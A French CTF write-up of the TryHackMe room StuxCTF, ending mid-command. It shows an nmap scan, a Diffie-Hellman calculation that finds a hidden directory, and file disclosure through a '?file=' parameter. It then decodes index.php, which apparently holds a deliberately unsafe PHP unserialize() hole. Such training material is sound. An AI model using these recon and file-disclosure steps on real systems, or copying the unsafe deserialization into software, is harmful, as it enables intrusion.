

## StuxCTF ##

# Task 1 StuxCTF #

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.77.28 stux.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A stux.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-21 10:00 CEST
Nmap scan report for stux.thm (10.10.77.28)
Host is up (0.035s latency).
rDNS record for 10.10.77.28: Stux.thm
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e8:da:b7:0d:a7:a1:cc:8e:ac:4b:19:6d:25:2b:3e:77 (RSA)
|   256 c1:0c:5a:db:6c:d6:a3:15:96:85:21:e9:48:65:28:42 (ECDSA)
|_  256 0f:1a:6a:d1:bb:cb:a6:3e:bd:8f:99:8d:da:2f:30:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/StuxCTF/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Default Page
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/21%OT=22%CT=1%CU=44557%PV=Y%DS=2%DC=T%G=Y%TM=6120B2C
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST1
OS:1NW6%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=40%W=6903%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 23/tcp)
HOP RTT      ADDRESS
1   35.23 ms 10.9.0.1
2   35.38 ms Stux.thm (10.10.77.28)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.86 seconds

```

On voit deux services :
SSH sur le port 22.   
HTTP sur le port 80 avec un fichier robots.txt.  




Sur la page du site il y a rien.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl stux.thm
<html>
	<head>
		<title>Default Page</title>
	</head>
	<body>
		<!-- The secret directory is...
		p: 9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251;
		g: 7;
		a: 330;
		b: 450;
		g^c: 6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617;
		-->
		is blank....
	</body>
```

Dans le code source on trouve les informations pour trouver le répertoire caché.   
On est dans un chiffrement  Diffie-Hellman.  

```python
tim@kali:~/Bureau/tryhackme/write-up$ cat decode.py
p=9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251
g=7
a=330
b=450
gc=6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617

gca = (gc**a) % p
gcab = (gca**b) % p

print("flag: ", str(gcab)[:128])
```
```bash
tim@kali:~/Bureau/tryhackme/write-up$ python3 decode.py
flag:  47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055
```

On a la réponse à la dernière question.    
La réponse est : 47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://stux.thm/robots.txt
# robots.txt generated by StuxCTF
# Diffie-Hellman
User-agent: *
Disallow: 
Disallow: /StuxCTF/

```

Dans le fichier robots.txt on voit dans le commentaire Diffie-Hellman, c'est l'algorithme que on avait besoin pour découvrir le répertoire caché.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://stux.thm/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/ -s | grep '<!--'
        <!-- hint: /?file= -->
```

Dans le code source de la page on trouve un indice on peut passer un paramètre.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://stux.thm/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/?file=index.php -s | head -1
3d3d67432b384349794a47502b7757623068324c386f67507641696369786a50355232626939435067414349676f67507641696369786a5030425861794e326376776a50694d6e617534576174354363684a48647a523362764a324c7a70324c7a52585a7a4e585969307a59794e484930425861794e32633841434967414349674143494b347a4c67496e5938344464776c6d636a4e334c38346a497a706d4c756c5762754d6a4c78456a4c78305365795657647870324c7a70324c7a52585a7a4e585969307a59794e484930425861794e32633841434967414349674143494b347a4c67496e593841434967414349674143496741434967346a647052324c3841434967414349674143494b347a4c67496e5938346a647052324c38414349674143496741434967414349676f67507641696369786a507956476475563259767754434a6b51434b347a4c67496e593834544d6f39435075344364704a6d59684a48496c5258616f6448496c68476467633362737832624735544d6f7854434a6b51434a6f67507641696369786a507956476475563259386b51434a6b67432b384349794a47502b496962764a4864764a576231706d49394d336368783259675958616b784449674143496741434967414349674169432b384349794a47502b4969636c35576168526e62764e6d49394d336368783259675958616b7844496741434967414349676f67507641696369786a507430434939554762705a32507641694f303557616f42534c744543506741434967414349674169432b384349794a47502b595859753943506741434967414349674169432b384349794a47502b5958616b394350674143496741434967414349676f67507641696369786a50326c475a76774449674143496741434967414349674169432b384349794a47502b45324c3855576276686b5069414861773543656c526d62704a53506d566d636f4269496b355759794a574c79466d5932466d6269307a637a4647626a42535938414349674143496741434967414349674143494b347a4c67496e5938346a6276524864314a324c38414349674143496741434967414349674143494b347a4c67496e5938346a626842336376776a62766c47646864576132466d62675547626e64326255356a4935786d62763169637a4a53507a4e5859734e4749754647637a78444967414349674143496741434967414349674143494b347a4c67496e5938346a4979466d5932466d6269307a6373396d63303532626a315359704a58596749535a7a7857596d4a53506b56475a754647633456574c686c6d636842694979466d5932466d626a4953503056325a7946476474454764685247496955326377464762733932596930545a7364325a7652584c685258596b4269496b5632637746476273393259675547626e64326230316963684a6d6468356d49394d3363687832596749696276524864314a6d4939554763355248497539476430566e5938414349674143496741434967414349674143494b347a4c67496e5938346a497956475a6856476174495859695a5859754a53507a4e5859734e4749326c475a38414349674143496741434967414349676f67507641696369786a506949585a756c5759303532626a4a53507a4e5859734e4749326c475a384143496741434967414349674169432b384349794a47502b4943637652584c6b564765705a574c79466d5932466d626751486231466d5a6c52574c79466d5932466d6267495859695a5859754a53507a4e5859734e474932466d623841434967414349674143494b347a4c67496e59383454656b396d593841434967414349674143494b347a4c67496e593834445a6856476176774449674143494b347a4c67496e5938347a4c674979637a4e6d4c6c785765304e334c7a4e3359764d48646c4e3363684a53506d566d636f4269493056575a6f4e585a736c48647a4a535073566d6367736d62707847506741434967414349674169432b384349794a47502b384349694d33636a35696270316d4c77466d63304e486476396d59764d33636a397963305632637a466d493959575a796847496951585a6c6832636c785765304e6e493977575a79427961756c47623841434967414349674143494b347a4c67496e5938346a497830545a734632597a314362686c47647035576167774361305257613331535a6a6c6d646c5257506f52485a70646e4939516e626c526e62764e474969516e63764233646c6c6d646930545a74466d62674547646c3147506741434967414349674169432b384349794a47502b49434f74594556564a535030563263794647616a42535930565762386b67432b384349794a47502b554762306c476476776a52554e4565315233552b554762306c47643841434967414349674143494b347a4c67496e593834445a6856476138414349674169432b384349794a47502b7757623068474946425657554e3054454643504b347a4c67496e59386f67507641696369787a4f706b535a74466d6266564762705a474a6f4d486475564764753932596652585a6e39565a736c6d5a6f556d6570785759704a585a7a3557644b347a4c67496e5938306e432b384349794a4750376b534b706b534b3035575a303532626a52434973496949677779636e4647646b67535a6a46476277566d63664a48647a686963694a44627568535a6b393259755632583059545a7a466d596f59585a794a48647a6843656c686d4d756c6d59673847616a5647496741434967414349676f67507641696369787a4f704969496777694969675365684a6e6368425350674d335a6852484a6741434967414349674169432b384349794a4750376b535a74466d6266564762705a474a6f4d486475564764753932596652585a6e39565a736c6d5a673044493035575a303532626a5243496741434967414349676f67507641696369787a65704943636f426e4c3456475a756c6d493930545a74466d6266564762705a474a6f5957614b347a4c67496e59386f675076416963697854664b347a4c67496e5938736a49685133637068585267386d6267554762705a6b49673847616a5647496741434967414349676f67507641696369787a65706b535a74466d6266564762705a474a6f4d48647a6c47656c39565a736c6d5a6841694a6d41534b6c3157597539565a736c6d5a6b6743646c4e33637068695a707067507641696369787a4f6464535a736c6d5a6e734656466430586b41535067555762683532586c7857616d5269432b384349794a47504b347a4c67496e59386f675076416963697854664b347a4c67496e59383048496741434967414349676f67507641696369787a4f7045476468526d50744d58616f52484a6777535a736c6d5a2b307963706847646b6779633035575a303532626a394664314233586c7857616d42434967414349674143496741434967414349674169432b384349794a4750376c434b304e5764795233636c52325866426962766c47646a3557646d42434967414349674143494b347a4c67496e5938736a49304e585a304243637456485a69415350674547646852474a674d5761734a57647742434967414349674143494b347a4c67496e5938736a49306848647541586231526d49673044496c7857616d5243496a6c4762695648636741434967414349674169432b384349794a47503742535a736c6d5a674d3363687832594b347a4c67496e593873544b7767795a756c4764793947636c4a335879396d6379566d432b384349794a4750<!DOCTYPE html>
```

En regardant dans le fichier index.php on a une longue chaîne en hexadécimal.    

```python
im@kali:~/Bureau/tryhackme/write-up$ cat decode.py
from chepy import Chepy

data = "3d3d67432b384349794a47502b7757623068324c386f67507641696369786a50355232626939435067414349676f67507641696369786a5030425861794e326376776a50694d6e617534576174354363684a48647a523362764a324c7a70324c7a52585a7a4e585969307a59794e484930425861794e32633841434967414349674143494b347a4c67496e5938344464776c6d636a4e334c38346a497a706d4c756c5762754d6a4c78456a4c78305365795657647870324c7a70324c7a52585a7a4e585969307a59794e484930425861794e32633841434967414349674143494b347a4c67496e593841434967414349674143496741434967346a647052324c3841434967414349674143494b347a4c67496e5938346a647052324c38414349674143496741434967414349676f67507641696369786a507956476475563259767754434a6b51434b347a4c67496e593834544d6f39435075344364704a6d59684a48496c5258616f6448496c68476467633362737832624735544d6f7854434a6b51434a6f67507641696369786a507956476475563259386b51434a6b67432b384349794a47502b496962764a4864764a576231706d49394d336368783259675958616b784449674143496741434967414349674169432b384349794a47502b4969636c35576168526e62764e6d49394d336368783259675958616b7844496741434967414349676f67507641696369786a507430434939554762705a32507641694f303557616f42534c744543506741434967414349674169432b384349794a47502b595859753943506741434967414349674169432b384349794a47502b5958616b394350674143496741434967414349676f67507641696369786a50326c475a76774449674143496741434967414349674169432b384349794a47502b45324c3855576276686b5069414861773543656c526d62704a53506d566d636f4269496b355759794a574c79466d5932466d6269307a637a4647626a42535938414349674143496741434967414349674143494b347a4c67496e5938346a6276524864314a324c38414349674143496741434967414349674143494b347a4c67496e5938346a626842336376776a62766c47646864576132466d62675547626e64326255356a4935786d62763169637a4a53507a4e5859734e4749754647637a78444967414349674143496741434967414349674143494b347a4c67496e5938346a4979466d5932466d6269307a6373396d63303532626a315359704a58596749535a7a7857596d4a53506b56475a754647633456574c686c6d636842694979466d5932466d626a4953503056325a7946476474454764685247496955326377464762733932596930545a7364325a7652584c685258596b4269496b5632637746476273393259675547626e64326230316963684a6d6468356d49394d3363687832596749696276524864314a6d4939554763355248497539476430566e5938414349674143496741434967414349674143494b347a4c67496e5938346a497956475a6856476174495859695a5859754a53507a4e5859734e4749326c475a38414349674143496741434967414349676f67507641696369786a506949585a756c5759303532626a4a53507a4e5859734e4749326c475a384143496741434967414349674169432b384349794a47502b4943637652584c6b564765705a574c79466d5932466d626751486231466d5a6c52574c79466d5932466d6267495859695a5859754a53507a4e5859734e474932466d623841434967414349674143494b347a4c67496e59383454656b396d593841434967414349674143494b347a4c67496e593834445a6856476176774449674143494b347a4c67496e5938347a4c674979637a4e6d4c6c785765304e334c7a4e3359764d48646c4e3363684a53506d566d636f4269493056575a6f4e585a736c48647a4a535073566d6367736d62707847506741434967414349674169432b384349794a47502b384349694d33636a35696270316d4c77466d63304e486476396d59764d33636a397963305632637a466d493959575a796847496951585a6c6832636c785765304e6e493977575a79427961756c47623841434967414349674143494b347a4c67496e5938346a497830545a734632597a314362686c47647035576167774361305257613331535a6a6c6d646c5257506f52485a70646e4939516e626c526e62764e474969516e63764233646c6c6d646930545a74466d62674547646c3147506741434967414349674169432b384349794a47502b49434f74594556564a535030563263794647616a42535930565762386b67432b384349794a47502b554762306c476476776a52554e4565315233552b554762306c47643841434967414349674143494b347a4c67496e593834445a6856476138414349674169432b384349794a47502b7757623068474946425657554e3054454643504b347a4c67496e59386f67507641696369787a4f706b535a74466d6266564762705a474a6f4d486475564764753932596652585a6e39565a736c6d5a6f556d6570785759704a585a7a3557644b347a4c67496e5938306e432b384349794a4750376b534b706b534b3035575a303532626a52434973496949677779636e4647646b67535a6a46476277566d63664a48647a686963694a44627568535a6b393259755632583059545a7a466d596f59585a794a48647a6843656c686d4d756c6d59673847616a5647496741434967414349676f67507641696369787a4f704969496777694969675365684a6e6368425350674d335a6852484a6741434967414349674169432b384349794a4750376b535a74466d6266564762705a474a6f4d486475564764753932596652585a6e39565a736c6d5a673044493035575a303532626a5243496741434967414349676f67507641696369787a65704943636f426e4c3456475a756c6d493930545a74466d6266564762705a474a6f5957614b347a4c67496e59386f675076416963697854664b347a4c67496e5938736a49685133637068585267386d6267554762705a6b49673847616a5647496741434967414349676f67507641696369787a65706b535a74466d6266564762705a474a6f4d48647a6c47656c39565a736c6d5a6841694a6d41534b6c3157597539565a736c6d5a6b6743646c4e33637068695a707067507641696369787a4f6464535a736c6d5a6e734656466430586b41535067555762683532586c7857616d5269432b384349794a47504b347a4c67496e59386f675076416963697854664b347a4c67496e59383048496741434967414349676f67507641696369787a4f7045476468526d50744d58616f52484a6777535a736c6d5a2b307963706847646b6779633035575a303532626a394664314233586c7857616d42434967414349674143496741434967414349674169432b384349794a4750376c434b304e5764795233636c52325866426962766c47646a3557646d42434967414349674143494b347a4c67496e5938736a49304e585a304243637456485a69415350674547646852474a674d5761734a57647742434967414349674143494b347a4c67496e5938736a49306848647541586231526d49673044496c7857616d5243496a6c4762695648636741434967414349674169432b384349794a47503742535a736c6d5a674d3363687832594b347a4c67496e593873544b7767795a756c4764793947636c4a335879396d6379566d432b384349794a4750"

c = (
        Chepy(data)
        .hex_to_str()
    )

print(c.o.decode())

```
```bash

tim@kali:~/Bureau/tryhackme/write-up$ python3 decode.py 
==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
reverse
PGJyIC8+CmVycm9yX3JlcG9ydGluZygwKTs8YnIgLz4KY2xhc3MgZmlsZSB7PGJyIC8+CiAgICAgICAgcHVibGljICRmaWxlID0gImR1bXAudHh0Ijs8YnIgLz4KICAgICAgICBwdWJsaWMgJGRhdGEgPSAiZHVtcCB0ZXN0Ijs8YnIgLz4KICAgICAgICBmdW5jdGlvbiBfX2Rlc3RydWN0KCl7PGJyIC8+CiAgICAgICAgICAgICAgICBmaWxlX3B1dF9jb250ZW50cygkdGhpcy0+ZmlsZSwgJHRoaXMtPmRhdGEpOzxiciAvPgogICAgICAgIH08YnIgLz4KfTxiciAvPgo8YnIgLz4KPGJyIC8+CiRmaWxlX25hbWUgPSAkX0dFVFsnZmlsZSddOzxiciAvPgppZihpc3NldCgkZmlsZV9uYW1lKSAmJiAhZmlsZV9leGlzdHMoJGZpbGVfbmFtZSkpezxiciAvPgogICAgICAgIGVjaG8gIkZpbGUgbm8gRXhpc3QhIjs8YnIgLz4KfTxiciAvPgo8YnIgLz4KaWYoJGZpbGVfbmFtZT09ImluZGV4LnBocCIpezxiciAvPgogICAgICAgICRjb250ZW50ID0gZmlsZV9nZXRfY29udGVudHMoJGZpbGVfbmFtZSk7PGJyIC8+CiAgICAgICAgJHRhZ3MgPSBhcnJheSgiIiwgIiIpOzxiciAvPgogICAgICAgIGVjaG8gYmluMmhleChzdHJyZXYoYmFzZTY0X2VuY29kZShubDJicihzdHJfcmVwbGFjZSgkdGFncywgIiIsICRjb250ZW50KSkpKSk7PGJyIC8+Cn08YnIgLz4KdW5zZXJpYWxpemUoZmlsZV9nZXRfY29udGVudHMoJGZpbGVfbmFtZSkpOzxiciAvPgo8YnIgLz4KPCFET0NUWVBFIGh0bWw+PGJyIC8+CiAgICA8aGVhZD48YnIgLz4KICAgICAgICA8dGl0bGU+U3R1eENURjwvdGl0bGU+PGJyIC8+Cgk8bWV0YSBjaGFyc2V0PSJVVEYtOCI+PGJyIC8+CiAgICAgICAgPG1ldGEgbmFtZT0idmlld3BvcnQiIGNvbnRlbnQ9IndpZHRoPWRldmljZS13aWR0aCwgaW5pdGlhbC1zY2FsZT0xIj48YnIgLz4KICAgICAgICA8bGluayByZWw9InN0eWxlc2hlZXQiIGhyZWY9ImFzc2V0cy9jc3MvYm9vdHN0cmFwLm1pbi5jc3MiIC8+PGJyIC8+CiAgICAgICAgPGxpbmsgcmVsPSJzdHlsZXNoZWV0IiBocmVmPSJhc3NldHMvY3NzL3N0eWxlLmNzcyIgLz48YnIgLz4KICAgIDwvaGVhZD48YnIgLz4KICAgICAgICA8Ym9keT48YnIgLz4KICAgICAgICA8bmF2IGNsYXNzPSJuYXZiYXIgbmF2YmFyLWRlZmF1bHQgbmF2YmFyLWZpeGVkLXRvcCI+PGJyIC8+CiAgICAgICAgICA8ZGl2IGNsYXNzPSJjb250YWluZXIiPjxiciAvPgogICAgICAgICAgICA8ZGl2IGNsYXNzPSJuYXZiYXItaGVhZGVyIj48YnIgLz4KICAgICAgICAgICAgICA8YnV0dG9uIHR5cGU9ImJ1dHRvbiIgY2xhc3M9Im5hdmJhci10b2dnbGUgY29sbGFwc2VkIiBkYXRhLXRvZ2dsZT0iY29sbGFwc2UiIGRhdGEtdGFyZ2V0PSIjbmF2YmFyIiBhcmlhLWV4cGFuZGVkPSJmYWxzZSIgYXJpYS1jb250cm9scz0ibmF2YmFyIj48YnIgLz4KICAgICAgICAgICAgICAgIDxzcGFuIGNsYXNzPSJzci1vbmx5Ij5Ub2dnbGUgbmF2aWdhdGlvbjwvc3Bhbj48YnIgLz4KICAgICAgICAgICAgICA8L2J1dHRvbj48YnIgLz4KICAgICAgICAgICAgICA8YSBjbGFzcz0ibmF2YmFyLWJyYW5kIiBocmVmPSJpbmRleC5waHAiPkhvbWU8L2E+PGJyIC8+CiAgICAgICAgICAgIDwvZGl2PjxiciAvPgogICAgICAgICAgPC9kaXY+PGJyIC8+CiAgICAgICAgPC9uYXY+PGJyIC8+CiAgICAgICAgPCEtLSBoaW50OiAvP2ZpbGU9IC0tPjxiciAvPgogICAgICAgIDxkaXYgY2xhc3M9ImNvbnRhaW5lciI+PGJyIC8+CiAgICAgICAgICAgIDxkaXYgY2xhc3M9Imp1bWJvdHJvbiI+PGJyIC8+CgkJCQk8Y2VudGVyPjxiciAvPgoJCQkJCTxoMT5Gb2xsb3cgdGhlIHdoaXRlIHJhYmJpdC4uPC9oMT48YnIgLz4KCQkJCTwvY2VudGVyPjxiciAvPgogICAgICAgICAgICA8L2Rpdj48YnIgLz4KICAgICAgICA8L2Rpdj4gICAgICAgICAgICA8YnIgLz4KICAgICAgICA8c2NyaXB0IHNyYz0iYXNzZXRzL2pzL2pxdWVyeS0xLjExLjMubWluLmpzIj48L3NjcmlwdD48YnIgLz4KICAgICAgICA8c2NyaXB0IHNyYz0iYXNzZXRzL2pzL2Jvb3RzdHJhcC5taW4uanMiPjwvc2NyaXB0PjxiciAvPgogICAgPC9ib2R5PjxiciAvPgo8L2h0bWw+PGJyIC8+Cg==
```

On décode, on remarque que c'est du base64 que l'on a inversée la chaîne.
On remet dans le bon ordre.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo "PGJyIC8+CmVycm9yX3JlcG9ydGluZygwKTs8YnIgLz4KY2xhc3MgZmlsZSB7PGJyIC8+CiAgICAgICAgcHVibGljICRmaWxlID0gImR1bXAudHh0Ijs8YnIgLz4KICAgICAgICBwdWJsaWMgJGRhdGEgPSAiZHVtcCB0ZXN0Ijs8YnIgLz4KICAgICAgICBmdW5jdGlvbiBfX2Rlc3RydWN0KCl7PGJyIC8+CiAgICAgICAgICAgICAgICBmaWxlX3B1dF9jb250ZW50cygkdGhpcy0+ZmlsZSwgJHRoaXMtPmRhdGEpOzxiciAvPgogICAgICAgIH08YnIgLz4KfTxiciAvPgo8YnIgLz4KPGJyIC8+CiRmaWxlX25hbWUgPSAkX0dFVFsnZmlsZSddOzxiciAvPgppZihpc3NldCgkZmlsZV9uYW1lKSAmJiAhZmlsZV9leGlzdHMoJGZpbGVfbmFtZSkpezxiciAvPgogICAgICAgIGVjaG8gIkZpbGUgbm8gRXhpc3QhIjs8YnIgLz4KfTxiciAvPgo8YnIgLz4KaWYoJGZpbGVfbmFtZT09ImluZGV4LnBocCIpezxiciAvPgogICAgICAgICRjb250ZW50ID0gZmlsZV9nZXRfY29udGVudHMoJGZpbGVfbmFtZSk7PGJyIC8+CiAgICAgICAgJHRhZ3MgPSBhcnJheSgiIiwgIiIpOzxiciAvPgogICAgICAgIGVjaG8gYmluMmhleChzdHJyZXYoYmFzZTY0X2VuY29kZShubDJicihzdHJfcmVwbGFjZSgkdGFncywgIiIsICRjb250ZW50KSkpKSk7PGJyIC8+Cn08YnIgLz4KdW5zZXJpYWxpemUoZmlsZV9nZXRfY29udGVudHMoJGZpbGVfbmFtZSkpOzxiciAvPgo8YnIgLz4KPCFET0NUWVBFIGh0bWw+PGJyIC8+CiAgICA8aGVhZD48YnIgLz4KICAgICAgICA8dGl0bGU+U3R1eENURjwvdGl0bGU+PGJyIC8+Cgk8bWV0YSBjaGFyc2V0PSJVVEYtOCI+PGJyIC8+CiAgICAgICAgPG1ldGEgbmFtZT0idmlld3BvcnQiIGNvbnRlbnQ9IndpZHRoPWRldmljZS13aWR0aCwgaW5pdGlhbC1zY2FsZT0xIj48YnIgLz4KICAgICAgICA8bGluayByZWw9InN0eWxlc2hlZXQiIGhyZWY9ImFzc2V0cy9jc3MvYm9vdHN0cmFwLm1pbi5jc3MiIC8+PGJyIC8+CiAgICAgICAgPGxpbmsgcmVsPSJzdHlsZXNoZWV0IiBocmVmPSJhc3NldHMvY3NzL3N0eWxlLmNzcyIgLz48YnIgLz4KICAgIDwvaGVhZD48YnIgLz4KICAgICAgICA8Ym9keT48YnIgLz4KICAgICAgICA8bmF2IGNsYXNzPSJuYXZiYXIgbmF2YmFyLWRlZmF1bHQgbmF2YmFyLWZpeGVkLXRvcCI+PGJyIC8+CiAgICAgICAgICA8ZGl2IGNsYXNzPSJjb250YWluZXIiPjxiciAvPgogICAgICAgICAgICA8ZGl2IGNsYXNzPSJuYXZiYXItaGVhZGVyIj48YnIgLz4KICAgICAgICAgICAgICA8YnV0dG9uIHR5cGU9ImJ1dHRvbiIgY2xhc3M9Im5hdmJhci10b2dnbGUgY29sbGFwc2VkIiBkYXRhLXRvZ2dsZT0iY29sbGFwc2UiIGRhdGEtdGFyZ2V0PSIjbmF2YmFyIiBhcmlhLWV4cGFuZGVkPSJmYWxzZSIgYXJpYS1jb250cm9scz0ibmF2YmFyIj48YnIgLz4KICAgICAgICAgICAgICAgIDxzcGFuIGNsYXNzPSJzci1vbmx5Ij5Ub2dnbGUgbmF2aWdhdGlvbjwvc3Bhbj48YnIgLz4KICAgICAgICAgICAgICA8L2J1dHRvbj48YnIgLz4KICAgICAgICAgICAgICA8YSBjbGFzcz0ibmF2YmFyLWJyYW5kIiBocmVmPSJpbmRleC5waHAiPkhvbWU8L2E+PGJyIC8+CiAgICAgICAgICAgIDwvZGl2PjxiciAvPgogICAgICAgICAgPC9kaXY+PGJyIC8+CiAgICAgICAgPC9uYXY+PGJyIC8+CiAgICAgICAgPCEtLSBoaW50OiAvP2ZpbGU9IC0tPjxiciAvPgogICAgICAgIDxkaXYgY2xhc3M9ImNvbnRhaW5lciI+PGJyIC8+CiAg